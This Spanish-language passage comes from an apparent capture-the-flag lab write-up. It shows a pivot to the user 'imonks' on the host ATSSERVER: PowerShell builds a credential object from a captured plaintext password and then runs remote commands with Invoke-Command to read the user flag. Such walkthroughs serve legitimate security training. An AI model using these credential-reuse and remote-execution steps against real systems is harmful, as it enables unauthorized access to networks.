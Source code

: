 ## Initial Access - Pivoting to imonks

### Getting remote command execution on another server

Desde la consola de PowerShell Web Access, procederemos a configurarnos las credenciales del usuario _**'imonks**_' a través de PSCredential.

Una vez configurada las credenciales, procederemos a intentar ejecutar el comando '_**whoami**_' en la máquina _**ATSSERVER**_ mediante la configuración que hemos podido capturar en el punto anterior.

Verificamos que el comando ha sido ejecutado correctamente en el servidor y nos ha devuelto correctamente el output. lo cual indica que las credenciales son válidas.

{% code overflow="wrap" %}
```powershell
$SecPassword = ConvertTo-SecureString 'W3_4R3_th3_f0rce.' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('acute\imonks',$SecPassword)

Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { whoami }
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2698_vmware_I6OQWsuGKT.png" alt=""><figcaption></figcaption></figure>

Al revisar el directorio de _**Desktop**_ del usuario que disponemos, verificamos que hemos podido comprobar la flag de **user.txt**.

{% code overflow="wrap" %}
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { ls C:\Users\imonks\Desktop }

Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { type C:\Users\imonks\Desktop\user.txt }
```
{% endcode %}
